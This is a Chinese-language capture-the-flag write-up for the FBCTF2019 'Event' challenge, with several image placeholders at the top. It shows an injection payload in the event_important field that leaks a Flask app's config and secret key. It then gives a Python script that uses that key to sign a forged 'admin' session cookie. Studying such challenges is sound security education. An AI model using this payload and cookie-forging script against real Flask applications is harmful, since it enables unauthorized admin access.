





# [FBCTF2019]Event

## 题目考点

- 模版注入
- cookie伪造

## 解题过程






在提交数据的时候，有三个可控参数，经测试在`event_important`参数存在模版注入，输入`__dict__`，发现成功回显

```
event_name=test&event_address=test&event_important=__class__.__init__.__globals__[app].config
```



 接着查找配置文件：`__class__.__init__.__globals__[app].config`



发现密钥，开始伪造Cookie

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = b'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'

session= SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def index():
    print(session.dumps("admin"))

index()
```

伪造cookie拿到flag

